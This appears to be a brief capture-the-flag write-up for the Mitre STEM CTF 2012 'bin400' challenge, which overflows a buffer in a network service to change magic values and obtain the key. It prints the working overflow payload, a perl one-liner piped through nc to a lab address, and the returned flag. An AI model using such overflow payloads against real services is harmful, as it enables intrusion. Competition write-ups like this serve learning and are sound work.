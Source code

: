 ```yaml
---
title: 'Mitre STEM CTF 2012 &mdash; bin400'
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: Mitre STEM CTF
year: 2012
---
```

## Overview

[bin400][1] is a network service has a buffer overflow vulnerability &mdash; it prints the key if some magic numbers are changed and otherwise prints itself.

<!--more-->

## Writeup

After realizing that the question was terribly worded and the service was not available publicly, we finally connect to the service and are rewarded with a binary. Its quickly apparent we're supposed to overflow a buffer and change some magic value.

```
% cat &lt;(perl -e 'print "A"x256, "\x13\x0f\x17\x7f", "\x54\x4e\x4f\x44", "\x42\x7d\x3d\x5e", "\n"') - | tsocks nc 10.0.0.171 3490
MCA-A4C52829
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.tar.gz